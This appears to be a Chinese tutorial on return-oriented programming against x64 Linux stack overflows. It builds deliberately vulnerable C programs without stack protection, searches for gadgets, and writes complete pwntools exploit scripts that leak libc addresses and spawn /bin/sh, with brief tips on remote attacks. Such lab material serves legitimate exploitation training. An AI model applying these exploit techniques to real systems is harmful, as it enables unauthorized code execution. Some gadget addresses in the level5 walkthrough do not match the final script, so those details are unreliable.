# 一步一步学ROP_x64

## Linux_64与Linux_86的区别

`linux_64`与`linux_86`的区别主要有两点：首先是内存地址的范围由32位变成了64位。但是可以使用的内存地址不能大于`0x00007fffffffffff`，否则会抛出异常。其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上，但在x64中的前六个参数依次保存在`RDI，RSI，RDX，RCX，R8和 R9`中，如果还有更多的参数的话才会保存在栈上。

例子：

```c++
    // level3
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    void callsystem()
    {
        system("/bin/sh");
    }

    void vulnerable_function() {
        char buf[128];
        read(STDIN_FILENO, buf, 512);
    }

    int main(int argc, char** argv) {
        write(STDOUT_FILENO, "Hello, World\n", 13);
        vulnerable_function();
    }
```

开启ALSR并编译：

```bash
    gcc -fno-stack-protector level3.c -o level3
```

对于这个程序，只需要构造溢出让rip指向`callsystem()`就可以获取shell。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。接下来就是要找溢出点了。
键入：`pattern create 150`生成字符串，然后输入使程序崩溃



PC指针并没有指向类似于`0x41414141`那样地址，而是停在了`vulnerable_function()`函数中。因为程序使用的内存地址不能大于`0x00007fffffffffff`，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于`pop rip`指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。



在GDB里，x是查看内存的指令，随后的gx代表数值用64位16进制显示。因为使用了peda，所以也可以直接通过栈顶的字符串计算`offset`



得到溢出偏移为136字节，构造payload，跳转一个小于`0x00007fffffffffff`的地址，看看这次能否控制pc的指针。




可以发现已经成功控制PC的指针了，构造exp如下：




```python
    #!/usr/bin/python
    from pwn import *

    elf = ELF('level3')
    p = process('./level3')

    callsystem = 0x04005b6

    payload = "A"*136 + p64(callsystem)
    p.send(payload)

    p.interactive()
```

## 使用工具寻找gadgets

在x64中前六个参数依次保存在`RDI，RSI，RDX，RCX，R8和 R9`寄存器里，如果还有更多的参数的话才会保存在栈上。所以我们需要寻找一些类似于`pop rdi; ret`的这种`gadget`来进行传参。如果是简单的`gadgets`，我们可以通过`objdump`来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些查找gadgets的工具比较方便。

[ROPEME](https://github.com/packz/ropeme)、[Ropper](https://github.com/sashs/Ropper)、[ROPgadget](https://github.com/JonathanSalwan/ROPgadget/tree/master)、[rp++](https://github.com/0vercl0k/rp)
这些工具功能上都相似。
例子：

```c++
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <dlfcn.h>

    void systemaddr()
    {
        void* handle = dlopen("libc.so.6", RTLD_LAZY);
        printf("%p\n",dlsym(handle,"system"));
        fflush(stdout);
    }

    void vulnerable_function() {
        char buf[128];
        read(STDIN_FILENO, buf, 512);
    }

    int main(int argc, char** argv) {
        systemaddr();
        write(1, "Hello, World\n", 13);
        vulnerable_function();
    }
```

编译：

```bash
    gcc -fno-stack-protector level4.c -o level4 -ldl
    # 程序中使用dlopen、dlsym、dlclose、dlerror 显示加载动态库，需要设置链接选项 -ldl
    # 加载动态链接库，首先为共享库分配物理内存，然后在进程对应的页表项中建立虚拟页和物理页面之间的映射。
```

首先目标程序会打印`system()`在内存中的地址，这样的话就不需要我们考虑ASLR的问题了，只需要想办法触发`buffer overflow`然后利用ROP执行`system(“/bin/sh”)`。但为了调用`system(“/bin/sh”)`，我们需要找到一个`gadget`将`rdi`的值指向`/bin/sh`的地址。于是我们使用`ROPGadget`搜索一下`level4`中所有`pop ret`的`gadgets`。

键入命令：`ROPgadget --binary level4 --only "pop|ret"`



如果没有理想的结果(没有找到想要的gadget)，我们可以寻找`libc.so`中的`gadgets`。因为程序本身会`load libc.so`到内存中并且会打印`system()`的地址。所以当我们找到`gadgets`后可以通过`system()`计算出偏移量后调用对应的`gadgets`。

键入命令：`ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rdi"`



构造ROP链：

```python
    payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
```

另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链

键入命令：`ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi`



通过搜索结果我们发现，`0x00000000000f4739 : pop rax ; pop rdi ; call rax`也可以完成我们的目标。首先将`ra`x赋值为`system()`的地址，`rdi`赋值为`/bin/sh`的地址，最后再调用`call rax`即可。

```python
    payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)
```

最终exp：

```python
    #!/usr/bin/python
    from pwn import *

    libc = ELF('libc.so.6')

    p = process('./level4')

    binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
    log.info("binsh_addr_offset = %#x",binsh_addr_offset)

    pop_ret_offset = 0x021102 - libc.symbols['system']
    log.info("pop_ret_offset = %#x",pop_ret_offset)

    # pop_pop_call_offset = 0x0107419 - libc.symbols['system']
    # log.info("pop_pop_call_offset = %#x",pop_pop_call_offset)

    print "\n##########receiving system addr##########\n"
    system_addr_str = p.recvuntil('\n')
    system_addr = int(system_addr_str,16)
    log.info("system_addr = %#x",system_addr)

    binsh_addr = system_addr + binsh_addr_offset
    log.info("binsh_addr = %#x",binsh_addr)

    pop_ret_addr = system_addr + pop_ret_offset
    log.info("pop_ret_addr = %#x",pop_ret_addr)

    # pop_pop_call_addr = system_addr + pop_pop_call_offset
    # log.info("pop_pop_call_addr = %#x",pop_pop_call_addr)

    p.recv()

    payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
    # payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)

    print "\n##########sending payload##########\n"
    p.send(payload)

    p.interactive()
```

## 通用gadgets

因为程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但是初始化的过程是相同的，因此针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要达到的效果。

例子：

```c++
    // level5
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    void vulnerable_function() {
        char buf[128];
        read(STDIN_FILENO, buf, 512);
    }

    int main(int argc, char** argv) {
        write(STDOUT_FILENO, "Hello, World\n", 13);
        vulnerable_function();
    }
```

编译：

```bash
     gcc -fno-stack-protector -o level5 level5.c
```

可以看到这个程序仅仅只有一个`buffer overflow`，也没有任何的辅助函数可以使用，所以我们要先想办法泄露内存信息，找到`system()`的地址，然后再传递`/bin/sh`到`.bss`段, 最后调用`system("/bin/sh")`。因为原程序使用了`write()`和`read()`函数，我们可以通过`write()`去输出`write.got`的地址，从而计算出`libc.so`在内存中的地址。但问题在于`write()`的参数应该如何传递，因为x64下前6个参数不是保存在栈中，而是通过寄存器传值。当我们使用`ROPgadget`并没有找到类似于`pop rdi, ret,pop rsi, re`t这样的`gadgets`时。就可以考虑在x64下一些万能的`gadgets`。比如说我们用`objdump -d ./level5`观察一下`__libc_csu_init()`这个函数。一般来说，只要程序调用了`libc.so`，程序都会有这个函数用来对libc进行初始化操作。



我们可以看到利用`0x40061a`处的代码我们可以控制`rbx,rbp,r12,r13,r14和r15`的值，随后利用`0x400600`处的代码我们将`r13`的值赋值给`rdx`, `r14`的值赋值给`rsi`,`r15`的值赋值给`edi`，随后就会调用`call qword ptr [r12+rbx8]`。这时候我们只要再将`rbx`的值赋值为0，再通过精心构造栈上的数据，我们就可以控制pc去调用我们想要调用的函数了（比如说write函数）。执行完`call qword ptr [r12+rbx8]`之后，程序会对`rbx+=1`，然后对比`rbp`和`rbx`的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让`rbp`和`rbx`的值相等，我们可以将`rbp`的值设置为1，因为之前已经将`rbx`的值设置为0了。大概思路就是这样，我们下来构造ROP链。

我们先构造`payload1`，利用`write()`输出`write`在内存中的地址。注意我们的`gadget`是`call qword ptr [r12+rbx*8]`，所以我们应该使用`write.got`的地址而不是`write.plt`的地址。(这里是直接执行函数，所以需要调用真实的函数体，即got表中的write),并且为了返回到原程序中，重复利用`buffer overflow`的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的`main`函数为止。

```python
    # rdi= edi = r15,  rsi = r14, rdx = r13
    # write(rdi=1, rsi=write.got, rdx=4)
    payload1 =  "\x00"*136
    payload1 += p64(0x40061a) + p64(0) +p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload1 += p64(0x400600) # mov rdx, r13; mov rsi, r14; mov edi, r15d; call qword ptr [r12+rbx*8]
    payload1 += "\x00"*56       # 栈被抬升了56个字节，7*8=56
    payload1 += p64(main)
```

当我们exp在收到`write()`在内存中的地址后，就可以计算出`system()`在内存中的地址了。接着我们构造`payload2`，利用`read()`将“/bin/sh”读入到`.bss`段内存中。

```python
    #rdi=  edi = r15,  rsi = r14, rdx = r13
    #read(rdi=0, rsi=bss_addr, rdx=16)
    payload2 =  "\x00"*136
    payload2 += p64(0x400606) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
    payload2 += "\x00"*56       # 栈被抬升了56个字节，7*8=56
    payload2 += p64(main)
```

最后我们构造`payload3`,调用`system()`函数执行“/bin/sh”。

```python
    # rdi = bss_addr
    pop_rdi = 0x400623
    payload3 =  "\x00"*136
    payload3 += p64(pop_rdi) + p64(bss_addr) + p64(system_addr)
```

最终的exp:

```python
    #!/bin/usr/python
    from pwn import *

    elf = ELF('level5')
    libc = ELF('libc.so.6')

    p = process('./level5')

    got_write = elf.got['write']
    print "got_write: " + hex(got_write)
    got_read = elf.got['read']
    print "got_read: " + hex(got_read)

    main = 0x0400587

    off_system_addr = libc.symbols['write'] - libc.symbols['system']
    print "off_system_addr: " + hex(off_system_addr)

    # rdi= edi = r15,  rsi = r14, rdx = r13
    # write(rdi=1, rsi=write.got, rdx=4)
    payload1 =  "\x00"*136
    payload1 += p64(0x40061a) + p64(0) +p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload1 += p64(0x400600) # mov rdx, r13; mov rsi, r14; mov edi, r15d; call qword ptr [r12+rbx*8]
    payload1 += "\x00"*56
    payload1 += p64(main)

    p.recvuntil("Hello, World\n")

    print "\n#############sending payload1#############\n"
    p.send(payload1)
    sleep(1)

    write_addr = u64(p.recv(8).ljust(8,'\x00'))
    print "write_addr: " + hex(write_addr)

    system_addr = write_addr - off_system_addr
    print "system_addr: " + hex(system_addr)

    bss_addr=0x0601040

    p.recvuntil("Hello, World\n")

    #rdi=  edi = r15,  rsi = r14, rdx = r13
    #read(rdi=0, rsi=bss_addr, rdx=16)
    payload2 =  "\x00"*136
    payload2 += p64(0x40061a) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload2 += p64(0x400600) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
    payload2 += "\x00"*56
    payload2 += p64(main)

    print "\n#############sending payload2#############\n"
    p.send(payload2)
    sleep(1)

    p.send("/bin/sh\0")
    sleep(1)

    p.recvuntil("Hello, World\n")

    # rdi = bss_addr
    pop_rdi = 0x400623
    payload3 =  "\x00"*136
    payload3 += p64(pop_rdi) + p64(bss_addr) + p64(system_addr)

    print "\n#############sending payload3#############\n"
    sleep(1)
    p.send(payload3)

    p.interactive()

```

要注意的是，当我们把程序的io重定向到`socket`上的时候，根据网络协议，因为发送的数据包过大，`read()`有时会截断`payload`，造成`payload`传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。
